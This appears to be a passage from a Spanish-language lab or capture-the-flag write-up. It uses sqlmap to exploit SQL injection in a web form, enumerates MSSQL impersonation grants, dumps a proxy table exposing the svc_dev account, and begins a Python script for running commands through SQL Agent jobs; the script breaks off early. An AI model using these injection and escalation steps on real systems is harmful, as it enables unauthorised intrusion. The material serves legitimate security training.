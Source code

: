 Para enumerar los usuarios a los que nuestro usuario actual puede suplantar, llevaremos a cabo la creación de una tabla llamada "grants", en la cual almacenaremos los nombres de usuario pertinentes. Este proceso puede ser facilitado utilizando un artículo que nos proporciona una guía detallada sobre la enumeración de usuarios a suplantar.

```sql
sql-shell> create table grants (username varchar(1024))
[14:39:19] [INFO] executing SQL data definition statement: 'create table grants (username varchar(1024))'
create table grants (username varchar(1024)): 'NULL'
sql-shell> insert into grants (username) select distinct b.name from sys.server_permissions a inner join sys.server_principals b on a.grantor_principal_id = b.principal_id where a.permission_name = 'impersonate'
[14:39:30] [INFO] executing SQL data manipulation statement: 'insert into grants (username) select distinct b.name from sys.server_permissions a inner join sys.server_principals b on a.grantor_principal_id = b.principal_id where a.permission_name = 'impersonate''  
insert into grants (username) select distinct b.name from sys.server_permissions a inner join sys.server_principals b on a.grantor_principal_id = b.principal_id where a.permission_name = 'impersonate': 'NULL'
```

Luego de realizar el volcado de la tabla "proxy", pudimos identificar las credenciales de "svc_dev", que en su descripción indicaban tener acceso para ejecutar "CmdExec" y "Powershell". Con base en esta investigación, podemos elaborar un pequeño script en Python que automatice la ejecución de comandos exclusivamente a través de trabajos (jobs), aprovechando los privilegios del usuario "daedalus_admin" que hemos suplantado.

```bash
❯ sqlmap --batch --url http://10.13.38.20/book-trip.php --data "destination=test" -D daedalus -T proxy -dump
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.7.8#stable}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

Database: daedalus
Table: proxy
[1 entry]
+----------+-------------------+---------------+---------+---------+-------------------------------------------------------------+---------------------+----------------------------+
| proxy_id | user_sid          | credential_id | name    | enabled | description                                                 | credential_identity | credential_identity_exists |
+----------+-------------------+---------------+---------+---------+-------------------------------------------------------------+---------------------+----------------------------+
| 1        | ?..?\x15.???????. | 65537         | svc_dev | 1       | Allow user to access the CmdExec and Powershell subsystems. | WEB01\\svc_dev      | 1                          |
+----------+-------------------+---------------+---------+---------+-------------------------------------------------------------+---------------------+----------------------------+  
```

```python
#!/usr/bin/python3
# Shebang: indica al sistema operativo que este script debe ser ejecutado utilizando Python 3

import sys, random, string, requests
# Importación de los módulos necesarios: sys para interactuar con el intérprete de Python,
# random para generar valores aleatorios,
# string para operaciones de cadena y
# requests para realizar solicitudes HTTP.

if len(sys.argv) < 2:
    # Verifica si se proporciona al menos un argumento en la línea de comandos al ejecutar el script.
    print(f"Usage: python3 {sys.argv[0]} <command>")
```